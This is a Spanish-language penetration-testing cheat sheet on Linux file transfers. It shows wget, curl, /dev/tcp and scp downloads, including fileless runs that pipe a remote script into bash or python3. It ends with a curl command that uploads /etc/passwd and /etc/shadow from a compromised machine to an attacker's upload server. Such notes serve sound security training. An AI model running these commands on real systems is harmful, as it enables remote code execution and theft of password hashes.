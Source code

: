 ### Descarga de Archivos

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

#Fileless - Sin archivos (Ejecucion directa en memoria)

curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
> Siempre que esté instalada la versión Bash 2.04 o superior (compilada con --enable-net-redirections), el archivo de dispositivo/dev/TCP integrado se puede utilizar para descargas de archivos simples.
```
# Establecer conexión TCP
exec 3<>/dev/tcp/10.10.10.32/80

# Enviar petición HTTP
echo -e "GET /LinEnum.sh HTTP/1.1\n\n" >&3

# Leer respuesta
cat <&3
```

**SCP Download** (Secure Copi) a traves de SSH
```
scp plaintext@192.168.49.128:/root/myroot.txt .
scp User@<Remote IP o DNS>:/ruta/archivo.txt Directorio de Guardado

#Puede ser necesario iniciar el servicio SSH en nuestra maquina atacante
sudo systemctl enable ssh
sudo systemctl start ssh
netstat -lnpt  #Comprobacion del puerto de escucha
```

### Carga de Archivos

**Web Upload con uploadserver**
```
# Instalar módulo
sudo python3 -m pip install --user uploadserver

# Crear certificado autofirmado
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Iniciar servidor HTTPS
mkdir https && cd https
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# Subir archivos desde máquina comprometida
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
